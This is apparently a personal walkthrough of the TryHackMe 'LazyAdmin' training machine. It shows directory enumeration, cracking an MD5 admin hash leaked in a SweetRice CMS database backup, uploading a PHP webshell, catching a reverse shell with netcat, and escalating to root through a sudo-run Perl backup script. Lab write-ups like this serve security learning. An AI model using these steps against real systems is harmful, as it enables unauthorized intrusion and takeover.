 TryHackMe LazyAdmin

Sonntag, 6. Dezember 2020

23:03

![lazyAdmin](/images/lazyAdmin.png "LazyAdmin")

Flags:
======

<table>
<thead>
<tr class="header">
<th>#</th>
<th>Found</th>
<th>Entry</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>User Flag</td>
<td>/home/itguy/user.txt</td>
<td>Port 88 - /content/as</td>
</tr>
<tr class="even">
<td>Root Flag</td>
<td>/root/root.txt</td>
<td>Port 88 - /content/as</td>
</tr>
</tbody>
</table>

 
=

Enumeration
===========

<table>
<thead>
<tr class="header">
<th>IP#1</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td><table>
<thead>
<tr class="header">
<th>Port</th>
<th><blockquote>
<p>Service</p>
</blockquote></th>
<th><blockquote>
<p>Software/<br />
Version</p>
</blockquote></th>
<th><blockquote>
<p>Credentials</p>
</blockquote></th>
<th><blockquote>
<p>Done</p>
</blockquote></th>
<th><p>Flag/Step</p>
<p>Solution</p></th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>22</td>
<td>SSH</td>
<td>OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)</td>
<td><table>
<thead>
<tr class="header">
<th>Username</th>
<th>???</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Password</td>
<td>???</td>
</tr>
</tbody>
</table></td>
<td>yes</td>
<td> </td>
<td> </td>
</tr>
<tr class="even">
<td>80</td>
<td>HTTP</td>
<td>Apache httpd 2.4.18 ((Ubuntu))</td>
<td> </td>
<td>yes</td>
<td><p>User.txt</p>
<p>Root.txt</p></td>
<td> </td>
</tr>
</tbody>
</table></td>
</tr>
</tbody>
</table>

 

<table>
<thead>
<tr class="header">
<th>80</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td><p>$gobuster dir -w /usr/share/wordlists/dirb/big.txt -u</p>
<table>
<thead>
<tr class="header">
<th>Path</th>
<th>Contents</th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>/content</td>
<td><p>[…]</p>
<p>Powered by Basic-CMS.ORG SweetRice.</p></td>
<td> </td>
</tr>
<tr class="even">
<td>/content/attachment/</td>
<td>Landing Plattform for upload</td>
<td> </td>
</tr>
<tr class="odd">
<td>/content/inc</td>
<td>SweetRice Source &amp; Binaries</td>
<td> </td>
</tr>
<tr class="even">
<td>/content/inc/mysql_backup</td>
<td><ol type="1">
<li><blockquote>
<p>$cat mysql_bakup_20191129023059-1.5.1.sql</p>
</blockquote></li>
</ol>
<ol start="2" type="1">
<li><blockquote>
<p>ISERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&amp;#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"<strong>manager</strong>\\";s:6:\\"passwd\\";s:32:\\"<strong>42f749ade7f9e195bf475f37a44cafcb</strong>\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"&lt;p&gt;Welcome to SweetRice - Thank your for install SweetRice as your website management system.&lt;/p&gt;[…]</p>
</blockquote></li>
</ol>
<ol start="3" type="1">
<li><blockquote>
<p>$hashcat -a 0 -m 0 42f749ade7f9e195bf475f37a44cafcb /usr/share/wordlist/rockyou.txt</p>
</blockquote></li>
<li><blockquote>
<p>$hashcat --show</p>
</blockquote></li>
</ol>
<blockquote>
<p> </p>
<p>42f749ade7f9e195bf475f37a44cafcb:<strong>Password123</strong></p>
<p> </p>
</blockquote></td>
<td><table>
<thead>
<tr class="header">
<th>Username</th>
<th>manager</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Password</td>
<td>Password123</td>
</tr>
</tbody>
</table></td>
</tr>
<tr class="odd">
<td>/content/as</td>
<td><p>SweetRice Management Page</p>
<p> </p>
<ol type="1">
<li><blockquote>
<p>Login with credentials manager:Password123</p>
</blockquote></li>
<li><blockquote>
<p>Go to Media Center -&gt; Upload and upload custom webshell e.g shell.php</p>
</blockquote></li>
<li><blockquote>
<p>$nc -lvnp &lt;port&gt;</p>
</blockquote></li>
<li><blockquote>
<p>Start shell by clicking on the uploaded file or move to /content/attachment/&lt;uploadedFile&gt;</p>
</blockquote></li>
</ol>
<ol start="5" type="1">
<li><blockquote>
<p>$cat /home/itguy/user.txt</p>
</blockquote></li>
</ol>
<p> </p>
<p><strong>Privilege Escalation</strong></p>
<ol type="1">
<li><blockquote>
<p>$sudo -l</p>
</blockquote></li>
<li><blockquote>
<p>$cat /home/itguy/backup.pl</p>
</blockquote></li>
<li><blockquote>
<p>$echo "/bin/sh" &gt; /etc/copy.sh</p>
</blockquote></li>
<li><blockquote>
<p>$sudo perl /home/itguy/backup.pl</p>
</blockquote></li>
<li><blockquote>
<p>$cat /root/root.txt</p>
</blockquote></li>
</ol>
<blockquote>
<p> </p>
</blockquote></td>
<td><p>User.txt Flag</p>
<p>Root.txt Flag</p></td>
</tr>
<tr class="even">
<td> </td>
<td> </td>
<td> </td>
</tr>
</tbody>
</table></td>
</tr>
</tbody>
</table>

 

Users
=====

<table>
<thead>
<tr class="header">
<th>ID</th>
<th>Username</th>
<th>Password</th>
<th>Hash</th>
<th>Hash Algorithm</th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>-</td>
<td>manager</td>
<td>Password123</td>
<td>42f749ade7f9e195bf475f37a44cafcb</td>
<td><p>Possible algorithms: md5</p>
<p> </p></td>
<td>Administrator</td>
</tr>
</tbody>
</table>

 

**Legend**

<table>
<thead>
<tr class="header">
<th> </th>
<th><blockquote>
<p>Step Solution/Finding</p>
</blockquote></th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td> </td>
<td><blockquote>
<p>Rabbit Hole</p>
</blockquote></td>
</tr>
</tbody>
</table>
